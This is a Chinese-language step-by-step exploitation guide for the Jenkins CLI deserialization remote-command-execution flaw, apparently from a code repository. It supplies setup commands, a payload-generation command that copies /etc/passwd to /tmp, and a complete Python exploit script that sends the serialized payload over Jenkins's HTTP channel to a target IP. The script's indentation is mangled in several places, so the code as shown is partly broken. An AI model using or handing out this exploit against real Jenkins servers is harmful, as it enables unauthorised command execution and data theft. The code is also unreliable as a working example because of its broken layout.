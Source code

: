 # jenkins漏洞利用过程

##一、漏洞介绍
### 1.1漏洞简介
该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意访问者可以构造恶意参数远程执行命令，从而获取系统权限，造成数据泄露。
### 1.2影响范围
所有Jenkins主版本均受到影响(包括2.56版本)
所有Jenkins LTS 均受到影响( 包括2.46.1版本)
##二、安装exp执行环境
下载urlibs3.request依赖包
`https://pypi.python.org/pypi/urllib3/1.21.1#downloads`
 `https://pypi.python.org/pypi/requests/2.14.2#downloads`
 依次解压urllib3-1.21.1.tar.gz,requests-2.14.2.tar.gz，然后安装python的urllib3和requests模块，相关命令如下


    tar -zxf urllib3-1.21.1.tar.gz  //解压压缩包
    tar  -zxf requests-2.14.2.tar.gz  //解压压缩包
    cd urllib3-1.2.1.1
    python setup.py install  //安装urllib模块
    cd ..
    cd requests-2.1.4.2
    python setup.py install //安装requests模块

##三、生成序列化字符串
下载payload
`https://github.com/nobleXu/jenkins/blob/master/jenkins_payload.jar`

在终端下执行jar，来生成我们需要的poc，最终生成的序列化字符串将保存在一个文件中，我们将该文件命名为jenkins_poc1.ser，在这里我们执行的命令为cp /etc/passwd /tmp/jenkins_passwd，即把/etc/passwd复制到/tmp/jenkins_passwd，相关命令如下：

    java -jar jenkins_payload.jar jenkins_poc1.ser "cp /etc/passwd  /tmp/jenkins_passwd"
<!-- ![](C:\Users\Administrator\Desktop\jekins\jekins-1.png) -->
![Alt text](/img/jekins-1.png)



##四、构造Python脚本

    import urllib
    import requests
    import uuid
    import threading
    import time
    import gzip
    import urllib3
    import zlib
    
    proxies = {
 	'http': 'http://127.0.0.1:8090',
  	'https': 'http://127.0.0.1:8090',
	}

	URL='http://192.168.247.141:8080/cli'
	
		PREAMLE='<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
	PROTO = '\x00\x00\x00\x00'


	FILE_SER = open("jenkins_poc1.ser", "rb").read()
	def download(url, session):
	
	headers = {'Side' : 'download'}
	headers['Content-type'] = 'application/x-www-form-urlencoded'
	headers['Session'] = session
	headers['Transfer-Encoding'] = 'chunked'
	r = requests.post(url, data=null_payload(),headers=headers, proxies=proxies, stream=True)
	print r.text


	def upload(url, session, data):
	
	headers = {'Side' : 'upload'}
	headers['Session'] = session
	headers['Content-type'] = 'application/octet-stream'
	headers['Accept-Encoding'] = None
	r = requests.post(url,data=data,headers=headers,proxies=proxies)


	def upload_chunked(url,session, data):
	
	headers = {'Side' : 'upload'}
	headers['Session'] = session
	headers['Content-type'] = 'application/octet-stream'
	headers['Accept-Encoding']= None
	headers['Transfer-Encoding'] = 'chunked'
	headers['Cache-Control'] = 'no-cache'
	
	r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies)


	def null_payload():
	yield " "
	
	def create_payload():
	payload = PREAMLE + PROTO + FILE_SER
	
	return payload
	
	def create_payload_chunked():
	yield PREAMLE
	yield PROTO
	yield FILE_SER
	
	def main():
	print "start"
	
	session = str(uuid.uuid4())
	
	t = threading.Thread(target=download, args=(URL, session))
	t.start()
	
	time.sleep(1)
	print "pwn"
	#upload(URL, session, create_payload())
	
	upload_chunked(URL, session, "asdf")
	
	if __name__ == "__main__":
	main()
我们需要修改exploit.py，将其中的目标主机改为192.168.247.141，发送的序列化字符串内容来自于jenkins_poc1.ser，使用vim编辑exploit.py即可
`vim exploit.py`
<!-- ![](C:\Users\Administrator\Desktop\jekins\jekins-2.png) -->
![Alt text](/img/jekins-2.png)

## 四、执行exp
修改完成后，我们直接执行exp即可，相关命令如下：
`python exploit.py`

![Alt text](/img/jekins-3.png)

<!-- ![](C:\Users\Administrator\Desktop\jekins\jekins-3.png) -->
注：执行exp后,如果目标机器/tmp目录下没有出现对应文件,请再次执行EXP方可成功

## 五、登录到目标主机进行验证
因为命令执行是无回显的，所以我们需要登陆到目标主机进行验证,进入到/tmp目录中查看，确实复制过来了，命令执行成功

<!-- ![](C:\Users\Administrator\Desktop\jekins\jekins-4.png) -->
![Alt text](/img/jekins-4.png)



